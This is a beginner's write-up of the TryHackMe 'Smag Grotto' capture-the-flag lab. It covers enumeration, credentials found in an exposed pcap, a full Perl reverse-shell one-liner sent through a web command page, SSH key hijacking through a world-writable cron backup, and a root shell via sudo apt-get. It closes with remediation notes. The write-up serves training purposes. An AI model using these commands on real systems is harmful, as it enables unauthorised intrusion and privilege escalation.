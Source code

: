 <p style='font-size: 200px' align="center">
  THM : CTF Smag Grotto<br>
  <img src="https://i.imgur.com/o08Runb.png">
</p>

## Table of contents
- [Step 1 : Nmap Scan](#step-1--nmap-scan)
- [Step 2 : Website enumeration](#step-2--website-enumeration)
- [Step 3 : Exploiting the website to get a reverse-shell](#step-3--exploiting-the-website-to-get-a-reverse-shell)
- [Step 4 : Get access to another user than www-data](#step-4--get-access-to-another-user-than-www-data)
- [Final step : Privilège escalation](#final-step--privilege-escalation)
- [Conclusion](#conclusion)


## Step 1 : NMAP Scan
First , we need to scan the target to find open ports.  
```nmap 10.10.21.185 -A -oN nmapResult``` (I always store the nmap scan result in a file).    
![alt text](https://i.imgur.com/qnZT0cl.png)  
We see 2 open ports :  
- port 22 for ssh  
- port 80 for http -> the target has a website that we can enumerate.  

## Step 2 : Website enumeration
Let's see the website  
![alt text](https://i.imgur.com/PSy4ni0.png)  
Ok, so now we know that this website is under development.  
I start a dirb scan on the target website.
```dirb http://10.10.21.185/ -o dirbResult```  
(Same as nmap, i always store dirb scan result in a file).  
![alt text](https://i.imgur.com/Ezv6GfQ.png)  
We see that dirb found a mail directory ! Let's see what we have at ```http://10.10.21.185/mail/```  
![alt text](https://i.imgur.com/uME2QT1.png)  
There is a pcap file. This can be really useful to find credentials used to connect to the target with diferrent protocols.  
Also, we have three possible logins : 
- ```netadmin@smag.thm```  
- ```uzi@smag.thm```  
- ```jake@smag.thm```  


We also maybe have a domain name : smag.thm  
![alt text](https://i.imgur.com/9p3t4NF.png)  



So we found some interesting things in this pcap file :   
- In the pcap file, there is a hostname : ```development.smag.thm```  
- There is also credentials used in a login.php page  

To access the website development section, I added the line ```10.10.21.185    development.smag.thm``` to the file ```/etc/hosts``` on my machine.  
Now, if I enter ```http://development.smag.thm/``` in the address bar, i enter the hidden development section of the website.  
![alt text](https://i.imgur.com/zSFc88j.png)  


There is two files in here :
- admin.php -> if not logged in, it redirects us to login.php.  
- login.php -> here we can use the credentials we found before in the pcap file.  


So let's try to use the credentials we found in the pcap file to login on the login.php page.
![alt text](https://i.imgur.com/SmbKqGc.png)  


And we are logged in !  
We are automatically redirected to admin.php.  
![alt text](https://i.imgur.com/puRBFr4.png)  

## Step 3 : Exploiting the website to get a reverse-shell
In this page, I tried ```ls``` and ```whoami``` but there was no output. But we can try to get a reverse shell with this command input. I used a perl reverse shell found at https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  
```
perl -e 'use Socket;$i="10.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```  
So I set a netcat listener on port 1234. ```nc -lnvp 1234```, then I send the reverse shell command to the website, and I got a reverse shell !  
![alt test](https://i.imgur.com/Clnpl84.png)  


Let's get a bit more stable shell with python, ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.  
![alt text](https://i.imgur.com/bHf9Wk3.png)  
(And yes the ip address of the target has changed, it's because I restarted the machine... it's a long story...)  

## Step 4 : Get access to another user than www-data
Now that we have a better shell, we can try to read the file ```/etc/passwd```to see users list on this machine ```cat /etc/passwd```.  
![alt text](https://i.imgur.com/4JoLmKd.png)  


We have the user jake, remember, we saw this name before in the /mail directory of the website.  So maybe we can try to connect to the machine as jake. But how can do this ? First I looked in the jake's home directory ```/home/jake```.  
![alt text](https://i.imgur.com/J1zPHY0.png)  


We can see that there is a file named ```.sudo_as_admin_successful```, that means that the user jake succesfully executed a command with sudo in the past. We can keep that in mind. We can't read any useful files, and we can't even go to the .ssh directory to try to find private ssh key... The next thing i've done was to check the crontab ```cat /etc/crontab```. 
![alt text](https://i.imgur.com/Lr8wf9Z.png)


One interesting thing here is that we have a cron task that copy ```/opt/.backups/jake_id_rsa.pub.backup``` to ```/home/jake/.ssh/authorized_keys```. The copied file is probably a public SSH key. After a little bit of research, I found something interesting about SSH public keys here : https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/. As I thought, it is possible to add our own public key to the authorized_keys file to then connect to the target without any password.  

So let's check if we can write to the ```/opt/.backups/jake_id_rsa.pub.backup```file with ```ls -l /opt/.backups/jake_id_rsa.pub.backup```.  
![alt text](https://i.imgur.com/YxCuEme.png)  


And we see that everybody can write to this file... Now we just have to create our own SSH keys and then copy our own public key to this file to connect with SSH as user jake. To generate our own keys, we need to use ```ssh-keygen -f jake_id_rsa```.  
![alt text](https://i.imgur.com/OWYhdS2.png)  


We now have two files :
- jake_id_rsa -> the private key we are going to use to connect with SSH.
- jake_id_rsa.pub -> the public key we need to copy to the ```/opt/.backups/jake_id_rsa.pub.backup``` file.  

I read the content of the public key file on my computer, and then I use ```echo '<MY PUBLIC KEY>' > /opt/.backups/jake_id_rsa.pub.backup``` on the target machine. Also, don't forget to set the right permissions for the private SSH key with ```chmod 600 jake_id_rsa```. And the we can connect with SSH as jake to the machine with ```ssh jake@10.10.24.178 -i jake_id_rsa```.  
![alt text](https://i.imgur.com/CgAIAtx.png)


We are now logged in as jake ! And we can now get the user.txt flag using ```cat user.txt```  
![alt text](https://i.imgur.com/bhPQu8t.png)

## Final step : Privilege Escalation
Now, it's time to get root ! Remember, we found a file named ```.sudo_as_admin_successful```, that means that user jake has already used a command with sudo in the past, so maybe jake has the permission to use a command with sudo without a password. To see this , we use ```sudo -l``` :  
![alt text](https://i.imgur.com/mDH59MY.png)  


We see that user jake can use sudo apt-get, and so execute the apt-get command as root without any password ! Let's see on [GTFOBins](https://gtfobins.github.io/) if we can execute a shell by using apt-get.  
![alt text](https://i.imgur.com/OQHoMBe.png)  
And yes we can ! By using ```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```.  
![alt text](https://i.imgur.com/NhQZMuR.png)  
And we have a root shell ! Now we can get the root flag with ```cat /root/root.txt```.  
![alt text](https://i.imgur.com/Ln7GE8p.png)  


## Conclusion
- Mails shouldn't be publicly accessible.
- There shouldn't be a publicly accessible pcap file.
- www-data user should'nt have write permissions on the file ```/opt/.backups/jake_id_rsa_pub.backup```. Maybe we can change the owner of the file with ```chown jake /opt/.backups/jake_id_rsa_pub.backup```and then, delete the write permission for other users than jake with ```chmod 600 /opt/.backups/jake_id_rsa_pub.backup```. So now only user jake can read or write to this file.
- Maybe we can filter commands on the website to avoid reverse shells

Thanks for reading my first write up ! (PS : I'm a beginner in pentesting and CTFs and english is not my native language).
